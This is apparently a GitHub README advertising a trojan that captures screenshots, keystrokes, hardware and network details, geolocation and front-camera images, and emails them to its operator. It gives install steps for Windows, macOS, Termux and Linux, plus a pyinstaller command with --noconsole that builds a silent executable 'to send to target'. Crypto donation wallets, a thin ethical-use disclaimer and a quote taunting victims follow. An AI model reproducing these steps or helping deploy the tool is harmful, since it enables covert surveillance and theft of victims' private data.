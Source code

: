 Trojan 2024: A Multi-Platform Information Gathering Script .

Features :
=======
Screenshots

Keystrokes

Hardware and network information

Geolocation data

Front camera captures

All data is securely delivered via email for your convenience.

Key Features
=======
Screenshot Capture: Automatically captures desktop activity every 60 seconds.

Keylogging: Records typed text at configurable intervals.

Hardware Information: Retrieves details like CPU, GPU, and RAM specs.

Network Data: Captures IP addresses, MAC addresses, and more.

Geolocation Tracking: Provides approximate location details.

Camera Access: Takes images using the front camera (if available).


How to install .
=====
Installation and Setup

Windows
==
Open PowerShell or Command Prompt.

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojan

pip install -r requirements.txt

python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py



macOS
==


Open the Terminal.

Clone this repository

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojan

python3 -m pip install -r requirements.txt

python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Termux (Android)
==
Install Termux from F-Droid or the Google Play Store.

Update packages

pkg update && pkg upgrade

pkg install git python

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojanpip install -r requirements.txt

python Run.py

Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Linux
===
Open the Terminal.

Clone this repository

git clone https://github.com/BlackNode-stack/2024Trojan.git

cd 2024Trojan

python3 -m pip install -r requirements.txt

python3 Run.py


Generate a standalone executable so you can send to target .

pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py


Usage Instructions
==
Email Configuration

During setup, you’ll need to provide:


The sender email.

The app password (generated through your email provider).

The recipient email address for receiving data.

Follow the platform-specific instructions to execute the script and ensure that data is sent correctly to your email.


How it works .
==
When you run this command, pyinstaller --onefile --noconsole --hidden-import=requests --hidden-import=bs4 --hidden-import=email --hidden-import=cv2 --hidden-import=PIL --hidden-import=pynput --hidden-import=colorama Run.py 

In your current folder, i.e. 2024Trojan, a dist folder will be created, where your executable file will be placed and you can send it to the target, it will start running when clicked.




Support
==
BTC Wallet: bc1q3kqdczj6q780y642yq9dvvfuk43g5a5uxn83f2

Ethereum Wallet: 0xE8e903eE127113c30aFd52acbDbdB567968534Ea

Feel free to support or donate if this tool was helpful to you! 😊

Disclaimer
==
Warning: This tool is intended for ethical and legal purposes only, such as cybersecurity research and penetration testing (with proper authorization). Unauthorized or malicious use of this script is illegal.

"Your defenses are paper walls against my storm. Every keystroke whispers your secrets; every shadow hides my trace. By the time you notice, I'll already be gone... or maybe I’ll just be watching."
